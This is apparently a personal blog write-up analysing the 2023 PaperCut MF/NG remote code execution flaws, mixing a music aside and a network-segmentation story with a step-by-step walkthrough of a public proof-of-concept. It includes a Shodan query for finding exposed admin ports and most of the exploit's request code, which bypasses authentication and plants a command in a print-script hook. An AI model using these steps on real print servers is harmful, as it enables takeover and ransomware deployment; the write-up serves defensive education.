



# Analysis: PapercutMF/NG Remote Code Execution CVE - "Yeah, but we can't be hacked by a printer... right?"


### This is a relatively short write up elaborating on the PapercutMF/NG RCE exploit that surfaced in Spring 2023. This was an amazing exploit for threat actors, specifically ransomware operators like LockBit, Cl0p and the likes of them. (shoutout LockbitSupp, no clue how you've not been nicked yet mate. This man has been exposed by the FBI, NCA and Europol and is still walking free, props.). This one still gets abused in the wild today, and I will explain why further into the post. Lets jump into it! Not before the track of the session...


### Track of the session: [Soul Mass Transit System - Burna (Unreleased)](https://www.youtube.com/watch?v=XIjMI1yzfUM)


### Soul Mass Transit System is one of the pioneers of modern day UK Garage/Speed garage, producing a variety of different sounds that come under the same category bringing versatility. The track Burna is currently unreleased but I've got it on USB, straight from ec2a (UKG Label). I'm not about to leak the track, but you can find it in [Soul Mass Transit System's Boiler Room: Leeds](https://www.youtube.com/watch?v=XIjMI1yzfUM) as the opening track at the very beginning of the set. I've also linked the track in the title. 


### This track brings heavy bass, and raw sound effects like dub sirens, critical for hard hitting garage tracks. Heard this one live at Venue MOT in South East London, a venue based in a backstreet garage. The best yet worst environment, would 100% recommend. Anyways, this is a cybersecurity portfolio, not a UKG critique blog. Lets jump into the writeup, selecta!   


Lets start off with a brief rundown on Papercut covering what it is, who uses it and why this exploit was commonly used by ransomware operators.


This exploit came to light in early 2023, and started being used in the wild around early april. During this time, I was working as an IT Technician contracted at a school. 


Lets look at where PapercutMF/NG is commonly deployed - Offices, schools, universities, other corporate printing environments and even government departments!


These are PRIME targets for pesky ransomware operators, these are places that cannot afford any downtime, therefore in the event of network wide encryption and being locked out of their systems, it is very likely the firm in question will pay the ransomware as soon as possible and not think twice about negotiating lower ransom prices. This was a high stakes exploit to ransomware operators, if one group didn't lock down one of these places, another one would before they had the chance to blink. It was all out gunfire.


Of course, being an IT Technician at a school of all places at the time, I had to ensure our printing services weren't using papercut, which thankfully, they weren't. Whilst chatting to people in regards to this vulnerability, I heard "Yeah, but we can't be hacked by a printer... right?". This leads me on to why this exploit is still being used in the wild today 2 nearly 3 years later. 


Many places like schools in particular, if not managed under an MSP (Managed Service Provider) often over look their cybersecurity and wouldn't think twice about their printer causing them thousands upon thousands of pounds, dollars, etc of damage. As stated previously, schools are a prime target. Put two and two together, recipe for disaster!


Enough explanation, lets get into covering the technicals behind it. First, we will use ```shodan.io``` to find hosts running this service. Very simple bit of syntax to find vulnerable hosts, in the search bar we will input: ```html:papercut``` along with ```port:9191,9192```, these are the Papercut admin page ports. Lets have a look at the ```shodan``` output.





Okay, the search showed us a Papercut service running a trial license, exposed with 2 CVE's, both scoring 9.8 CVSS. The CVEs impacting the service are: ```CVE-2023-39143``` and ```CVE-2023-27350```. Lets explain, as these both go hand in hand. 


Lets start with ```CVE-2023-39143```. On versions before 22.1.3 on Windows, allows path traversal. This enables attackers to read, upload or delete arbitrary files. This leads to remote code execution when external device integration is enabled, which appears to be very common. 


```CVE-2023-27350``` - This allows remote attackers to bypass the authentication on the web portal, or even using a script bypass authentication and execute arbitrary code as ```SYSTEM```, the highest level of privilege. The vulnerability lies within the ```SetupCompleted``` class. An attacker can simply change the web address and instead of being on the login page, direct themselves to the ```SetupCompleted``` page, eg: ```https://vulnhost:9191/app?ServicePage/SetupCompleted``` and then log into Papercut as the setup user. From here you can change configs to allow remote code execution from the scripting function built into Papercut. 


So yes, you can be hacked by a printer... your printer may just decide to join the dark side with the pesky ransomware operators and start dishing out payloads, many of which targeted ```GPO```,```(Group Policy Order)``` to spread malware through the network, very simple attack method yet dangerous as ransomware can be dropped on every single device on the network with minimal effort.


Lets look at a ```CVE-2023-27350```, PoC python script kindly hosted by [horizon3ai](https://github.com/horizon3ai/CVE-2023-27350) on github!


### Disclaimer: I do not engage in nor condone or intend to promote unethical use of the PoC script. This is for analysis only.





Starting off at the beginning, we can see it imports ```argparse```, which is to handle command line arguments which you'll see further down the script. It also imports ```requests```, to make web requests to the target page.


```get_session_id(base_url)``` string:

- Starts a new session and sends a ```GET / HTTP``` request to ```/app?service=page/SetupCompleted```


- It then sends a POST request with from data posing as a legitimate Papercut setup form submission.


- If it gets a response containing ```papercut``` and a tasty ```JSESSIONID``` flavoured cookie, that means the target is responding as a valid Papercut instance. 


What does the ```JSESSIONID``` do? 


It essentially acts as an authentication for later requests. 


Finally, we get the print output telling us whether it's vulnerable or not and if it is and has retrieved the ```JSESSIONID```.


```set_setting(base_url, session, setting, enabled)```


- This starts off by using the authenticated session (```JSESSIONID``` mentioned previously), to send form data that updates internal Papercut config values. We can see on Line 30 that it targets specific backend service endpoints like ```/ConfigEditor``` that manages system settings. This opens up things like executing code by abusing Papercut's built in scripting feature.


Of course with this, you'll be executing code as ```NT AUTHORITY\\SYSTEM```, allowing you free reign of the machine it's being hosted on, most commonly Windows servers acting as domain controllers. (Yes, some people host things like printing servers on domain controllers, instead of separating it onto a dedicated print server)... queue the Chris Kamara gif...


If you're one of these people that like having everything centralized for convenience etc, you may be thinking, "Well, what's the point of having the service running on it's own server? Is that not a waste of resource?"


No, no it's not, let me break it down and tell you a story albeit whilst I spit some biblical infosec knowledge, the bread and butter of risk prevention. 


So we have 2 networks, completely different ones in different buildings yet they happen to be neighbours. Lets start with the first one.


- ### Network 1, two domain controllers, a primary operational one and a backup running as a failsafe. Joe Bloggs, a senior one man army sysadmin with 20+ years experience decides creating a virtual server or running a bare metal print server takes up too much resource or costs too much to implement. He decides to centralize everything on the domain controller (including Papercut).


What matey boy Joe Bloggs doesn't think about, is the risk of one of the services running on that server suffering from a vulnerability such as ```CVE-2023-27350```. As it's all centralized, if someone gains ```NT AUTHORITY\\SYSTEM```, they have free reign to poke things like ```GPO``` with malicious commands via ```CMD``` or ```PowerShell```. 


Joe Bloggs heads off for lunch, gets his trusty Tesco meal deal and sits down to handle a user ticket. This one reads:


- ### Help! Adobe Reader has disappeared from my desktop and I need it ASAP for filing business expenses!


He punches out a quick ```gpupdate /force```, but uses ```PowerShell``` to query the whole domain instead incase anyone else is effected. You MIGHT be able to see where this is going. Whilst we wait 10 or 15 minutes for that to go through, lets go next door and see what our other fellow sysadmins are doing!


- ### Network 2, This setup is manned by Tom, Dick and Harry. Fairly young lads with a few years experience but know risk prevention. Lets run through their setup:


- Two domain controllers dedicated for strictly domain control. 


- A virtual print server running Papercut only, no domain related services.


- A dedicated VLAN for printing. 


Lets bullet point the network setup.


### Network and VLAN


- Managment VLAN: ```ID:10``` CIDR: ```10.0.1.0/24```


- Infrastructure VLAN for Domain Controllers: ```ID:20``` CIDR: ```10.0.2.0/24```


- Print VLAN: ```ID:50``` CIDR: ```10.0.5.0/24```


- Client VLAN: ```ID:100``` CIDR: ```10.0.10.0/24```


- IoT/Printers VLAN: ```ID:200``` CIDR: ```10.0.20.0/24```


Okay, we can see it's all seperated, but the config is where it matters. These VLANs will be setup to allow the required ports and be blocked from communicating with anything it doesn't depend on. Only thing it can access on the Infrastructure VLAN is Active Directory via ```389/636 LDAP/LDAPS``` for user authentication. 

```
| Source VLAN     | Destination VLAN    | Allowed Ports                               | Purpose                                  |
| --------------- | ------------------- | ------------------------------------------- | -----------------------------------------|
| Clients (100)   | Print (50)          | 445 (SMB), 515 (LPD), 631 (IPP), 9100 (RAW) | Submit print jobs                        |
| Management (10) | Print (50)          | 9191–9192                                   | PaperCut admin interface                 |
| Print (50)      | Infrastructure (20) | 389 / 636 (LDAP/LDAPS)                      | User authentication via AD               |
| Print (50)      | Internet            | 443                                         | Updates and remote logging (if required) |
| Everything else | —                   | Blocked                                     | No lateral movement                      |
 ```


Traffic between ```VLAN 50``` (Print) and ```VLAN 20``` (Infrastructure) is unidirectional. The print server can initiate ```LDAP``` lookups, but domain controllers cannot initiate sessions back to the print server.


Then of course, if a threat actor gains access to the machine, things like GPO don't exist on the server, as it's configured for printing only and has restricted access to the rest of the network. 


Therefore, Tom, Dick and Harry will more than likely only have to delete their virtual print server in the event of a ransomware payload being dropped on their unpatched Papercut server. Lets peer out our window at our neighbour Joe Bloggs and see how he's getting on... 


### Joe Bloggs has had a monumental toss up...


He's been confronted in person, his GPO fix didn't work so he heads off to check what the crack is with this machine in person. 


Oh no, all the desktop icons are gone, and the file extensions are random gibberish. 


Our man Joe Bloggs has committed the unforgivable act of friendly fire, and shot everyone with a GPO refresh which contained a brand new domain-wide object containing ransomware in the from of ```.exe```, which was unknowingly created via Papercut's RCE whilst he was deciding what meal deal to get from Tesco... On the phone to the ICO you go old son!


And this, has been a story on why separation and segmentation is vital. Lets move back onto the second half of the CVE PoC.





So we start off with the ```execute(base_url, session, command):``` function. Lets explain what these things in the execute function are. 


- ```base_url```: the target application root. 
- ```sesssion``` Self explanatory, the authentication session, with the help of our ```JSESSIONID``` flavoured cookies, tasty.
- ```command``` Also pretty self explanatory, this is the OS-level command that gets pushed out via the script, aka the payload. This will execute on the host.  


Lets continue into the string. 


- ```postback = "java.lang.Runtime.getRuntime().exec('cmd.exe /C ...');"```


This holds a Java call that would invoke the runtime to execute the OS command, or in professional writeup terms, the server-side script body that calls the application runtime to spawn OS processes.


- ```headers = {'Origin': f'{base_url}'}```


This emulates values a browser would send when navigating Papercut's admin UI. 


- ```data = {'service': 'page/PrinterList'}```


- ``` r = session.get(f'{base_url}/app?service=page/PrinterList', data=data, headers=headers, verify=False)```


The ```GET``` to ```page/PrinterList``` mimics opening the printer list UI. This is a harmless UI navigation style request. In an exploit chain it helps the server establish the expected server-side state (UI context, CSRF tokens).


### Selecting the target printer


```
data = {'service': 'direct/1/PrinterList/selectPrinter','sp': 'l1001'}
    r = session.get(f'{base_url}/app?service=direct/1/PrinterList/selectPrinter&sp=l1001', ...)
```


- The purpose of this is to emulate selecting a specific printer within the UI. This action leads the application to show the printer-specific configuration page. 


- In the application, this selects the object to be configured; in the attack it selects the object the attacker would want to modify. 


### Opening the printer options tab


```
    data = {'service': 'direct/1/PrinterDetails/printerOptionsTab.tab','sp': '4'}
    r = session.get(f'{base_url}/app', data=data, headers=headers, verify=False)
```


- The purpose for this line is to emulate clicking the options/config tab for the selected printer. Again, this is UI navigation that prepares the app for the follow up configuration ```POST```.


### ```POST ``` to enable scripting and supply script body


```
    data = {
        'service': 'direct/1/PrinterDetails/$PrinterDetailsScript.$Form',
        'sp': 'S0',
        'Form0': 'printerId,enablePrintScript,scriptBody,$Submit,$Submit$0,$Submit$1',
        'printerId': 'l1001',
        'enablePrintScript': 'on',
        'scriptBody': "function printJobHook(inputs, actions) {}\r\n" \
                     f"java.lang.Runtime.getRuntime().exec('{command}');",
        '$Submit$1': 'Apply',
    }
    r = session.post(f'{base_url}/app', data=data, headers=headers, verify=False)
```


This is the very important step, this submits the printer configuration form. 


The fields mirror the web UI form: 


- ```printerId```: which printer to modify.


- ```enablePrintScript``` which toggles a server-side scripting feature (as previously mentioned) for that printer. 


- ```scriptBody```: The script text stored by the application and later executed when the print hook runs. 


The code is performing the locate then update workflow of the admin UI, finding the config entry, then submitting the form with new values. 


When an attacker submits this ```POST``` and the server accepts it without correct authorization, they can cause the application to later execute arbitrary OS commands via the script body. 


```
    if r.status_code == 200 and 'Saved successfully' in r.text:
        print('[+] Executed successfully!')
    else:
        print('[-] Might not have a printer configured. Exploit manually by adding one.')
```


And then at last, we have the success check. 


This checks for an application-level success message as you can see in ```if r.status_code == 200 and 'Saved successfully' in r.text:```. 


I would elaborate on how this can be detected, but this is a 2 nearly 3 year old CVE. You have no business running this version of papercut still, and if you are, you'll end up like our man Joe Bloggs on the phone to the ICO. 


That's it for the Papercut RCE writeup, hopefully it's been a good read and relatively educational in terms of risk prevention. Stay tuned for similar writeups!
